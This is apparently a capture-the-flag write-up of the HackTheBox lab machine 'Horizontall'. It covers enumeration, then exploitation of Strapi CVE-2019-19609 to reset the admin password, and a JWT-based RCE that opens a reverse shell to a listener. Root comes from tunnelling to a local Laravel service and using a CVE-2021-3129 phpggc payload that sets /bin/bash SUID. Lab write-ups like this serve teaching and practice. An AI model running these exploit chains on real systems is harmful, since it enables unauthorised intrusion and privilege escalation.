 ```yaml
---
layout: post
title: "HTB: Horizontall"
author: Andrew Cherney
date: 2023-02-17 19:55:05
tags: htb easy-box linux webapp 
icon: "assets/icons/horizontall.png"
post_description: "This box is a great example of how much information can be leaked by basic scripts and services. A javascript file leaks a subdomain with an api, and then the login portal leaks the vulnerable version of strapi being run. To gain root there is a somewhat clever way of ssh tunneling to manipulate a vulnerable local service on the box."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nmap -sC 10.10.11.105
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-17 20:26 CST
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http
|_http-title: horizontall
```

<h2>Port 80 - HTTP</h2>

{% include img_link src="/img/horizontall/front_page" alt="front_page" ext="png" trunc=500 %}

In looking around the javascript file **app.c68eb462.js** I find a reference to **http://api-prod.horizontall.htb/reviews** and I can now add <code>10.10.11.105 api-prod.horizontall.htb horizontall.htb</code> to my **/etc/hosts** file.

<h2>api-prod</h2>

{% include img_link src="/img/horizontall/api-prod_front" alt="front_page" ext="png" trunc=100 %}

![api-prod reviews](/img/horizontall/Horizontall_json_reviews.png)

There seems to be some uploaded json for reviews of a service/product here. I'll toss out a dirb to find anything else on this subdomain.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $dirb http://api-prod.horizontall.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sat Feb 18 11:18:40 2023
URL_BASE: http://api-prod.horizontall.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://api-prod.horizontall.htb/ ----
+ http://api-prod.horizontall.htb/admin (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/Admin (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/ADMIN (CODE:200|SIZE:854)                                   
+ http://api-prod.horizontall.htb/favicon.ico (CODE:200|SIZE:1150)                            
+ http://api-prod.horizontall.htb/index.html (CODE:200|SIZE:413)                              
+ http://api-prod.horizontall.htb/reviews (CODE:200|SIZE:507)                                 
+ http://api-prod.horizontall.htb/robots.txt (CODE:200|SIZE:121)                              
+ http://api-prod.horizontall.htb/users (CODE:403|SIZE:60)  
```

<h1>User as strapi</h1>

<h2>CVE-2019-19609</h2>

Heading to that admin portal I am met with a strapi login screen. When searching for vulnerabilities on exploit-db the only versions with known exploits are **3.0.0-beta.17.4 and 3.0.0-beta.17.7** so I get to trying to find the strapi verison. 

![strapi version](/img/horizontall/Horizontall_version_strapi.png)

Bingo, we're on **beta.17.4** which means [this unauthenticated RCE](https://www.exploit-db.com/exploits/50239) should let me get a shell as www-data. In reading through the exploit it seems I could have gone to **http://api-prod.horizontall.htb/admin/init** to find out the strapi version. 

Unfortunately this exploit doesn't seem to give me RCE. On the up side it did reset the password of admin to **SuperStrongPassword1** and when I log in it gives me a jwt of:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjc2NzQ3NTg3LCJleHAiOjE2NzkzMzk1ODd9.O0y5CLqbmYKRIRg0KNy0BjKxELvdlGeQquP9pwnGgVY
```

Now in searching for other exploits I came across [this exploit using a jwt for RCE](https://github.com/diego-tella/CVE-2019-19609-EXPLOIT/blob/main/exploit.py). At the endpoint /admin/plugins/install there is a way to pipe commands through and bypass traditional authentication methods.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $python3 strapi_jwt_exploit.py -d api-prod.horizontall.htb -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjc2NzQ3NTg3LCJleHAiOjE2NzkzMzk1ODd9.O0y5CLqbmYKRIRg0KNy0BjKxELvdlGeQquP9pwnGgVY -l 10.10.14.14 -p 7777
[+] Exploit for Remote Code Execution for strapi-3.0.0-beta.17.7 and earlier (CVE-2019-19609)
[+] Remember to start listening to the port 7777 to get a reverse shell
[+] Sending payload... Check if you got shell
[+] Payload sent. 
```

```
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.105] 45220
/bin/sh: 0: can't access tty; job control turned off
$ 
```

<h1>Root</h1>

<h2>Laravel</h2>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.105] 45232
/bin/sh: 0: can't access tty; job control turned off
$ netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1862/node /usr/bin/ 
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -             
```

I found that there is a service running on port 8000 of localhost. In curling that service I find out that it is Laravel v8 (PHP v7.4.18). In a cursory search of exploits I find [this CVE-2021-3129 exploit for versions <=8.4.2](https://github.com/ambionics/laravel-exploits). I'll set up an ssh key for the user strapi and use ssh tunneling to run exploits against this localhost service from my host machine. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $ssh strapi@10.10.11.105 -i key -L 8000:localhost:8000
```

I can then execute the payload towards my localhost:8000 and it will target the laravel service on the box. Then I can clone the phpggc repo and run the laravel exploit after generating my payload.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall/phpggc]
└──╼ $php -d'phar.readonly=0' ./phpggc --phar phar -o shell.phar --fast-destruct monolog/rce1 system id
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall/phpggc]
└──╼ $cd ..
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Horizontall]
└──╼ $python3 laravel_exploit.py http://localhost:8000/ phpggc/shell.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Well that is awfully convenient that laravel is running as root. Since this exploit is RCE I can have it change /bin/bash to be an SUID and get root. 

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o shell.phar --fast-destruct monolog/rce1 system "chmod u+s /bin/bash"
```

```bash
$ /bin/bash -p
bash-4.4# cat /root/root.txt
b83c0d741c44ab-----------------
```

